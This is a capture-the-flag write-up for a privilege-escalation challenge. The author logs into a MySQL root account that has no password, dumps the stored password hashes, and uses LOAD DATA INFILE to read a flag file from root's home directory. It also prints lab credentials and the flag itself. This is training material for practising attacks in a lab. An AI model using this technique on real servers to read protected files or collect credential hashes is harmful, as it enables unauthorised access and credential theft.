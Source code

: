 # Internal

## The brief

```
This is Stage 2 of Path 3 in The Mission. After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.

Escalate your privileges and retrieve the flag out of root's home directory.

Use credentials you have gathered previously to access this challenge.

Press the Start button on the top-right to begin this challenge.
```

## SSH

We have creds from the `Orion` challenge:
```
user: Orion
pass: stars4love4life
```

## Recon

So what can we do? The machine has no `sudo` binary, our `id` is boring and no `SUID` binaries. 
```bash
orion@internal-b02dc088968f8e8d-655f7b5848-84zvp:~$ cd /
orion@internal-b02dc088968f8e8d-655f7b5848-84zvp:/$ ls
app  bin  boot  create_mysql_admin_user.sh  dev  etc  home  lib  lib64  media  mnt  mysql-setup.sh  opt  proc  root  run  run.sh  sbin  srv  start-apache2.sh  start-mysqld.sh  sys  tmp  usr  var
```
Interesting, some `MySQL` stuff.... can we logon?

```bash
orion@internal-6302da397808a1bb-6f6f845cd-stzk4:/$ cat run.sh
#!/bin/bash

VOLUME_HOME="/var/lib/mysql"

sed -ri -e "s/^upload_max_filesize.*/upload_max_filesize = ${PHP_UPLOAD_MAX_FILESIZE}/" \
    -e "s/^post_max_size.*/post_max_size = ${PHP_POST_MAX_SIZE}/" /etc/php5/apache2/php.ini
if [[ ! -d $VOLUME_HOME/mysql ]]; then
    echo "=> An empty or uninitialized MySQL volume is detected in $VOLUME_HOME"
    echo "=> Installing MySQL ..."
    mysql_install_db > /dev/null 2>&1
    echo "=> Done!"
    /create_mysql_admin_user.sh
else
    echo "=> Using an existing volume of MySQL"
fi

exec supervisord -n
orion@internal-6302da397808a1bb-6f6f845cd-stzk4:/$ cat mysql-setup.sh
#!/bin/bash

service mysql restart
sleep 5
#mysqld &
#mysqladmin --user root password ""
#mysql -e "DROP USER 'root'@'localhost'; CREATE USER 'root'@'%' IDENTIFIED BY '';GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION; FLUSH PRIVILEGES;"
/usr/sbin/sshd -D
```
One of the comments is really usefull:
```
#mysqladmin --user root password ""
```
Time to SQL

## MySQL

Here is the initial part:
```
 mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.5.47-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
```
`information_schema` and `performance_schema` are not interesting to us. But `mysql` is!
```
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------------+
| Tables_in_mysql           |
+---------------------------+
| columns_priv              |
| db                        |
| event                     |
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| host                      |
| ndb_binlog_index          |
| plugin                    |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
| user                      |
+---------------------------+
```
Ooooo, and what's in `user`? (A lot, but here are the two important columns):
```
select User, Password  from user;
+-------+-------------------------------------------+
| User  | Password                                  |
+-------+-------------------------------------------+
| root  |                                           |
| root  |                                           |
| root  |                                           |
| root  |                                           |
| admin | *29D16BAEB5F0BF7E2F8E862E3FB290C7F03F3754 |
+-------+-------------------------------------------+
5 rows in set (0.00 sec)
```
Aight... what now? That isn't a real password...

## Getting the flag

Thank you to [Maryary](https://github.com/Maryary94)! She helped me finish this challenge.
</br></br>

We know that the flag is probably in the `/root/` folder as `flag.txt`. So how can we loaded into the database to read?
```
mysql> LOAD DATA INFILE '/root/flag.txt' INTO TABLE db FIELDS TERMINATED BY '\n';
Query OK, 1 row affected, 21 warnings (0.00 sec)
Records: 1  Deleted: 0  Skipped: 0  Warnings: 21
```
Then just `select * from db;` (I won't show the whole output):
```
flag{183bdf6f145a1c97f0b4f520355e8ed5}
```
Yay!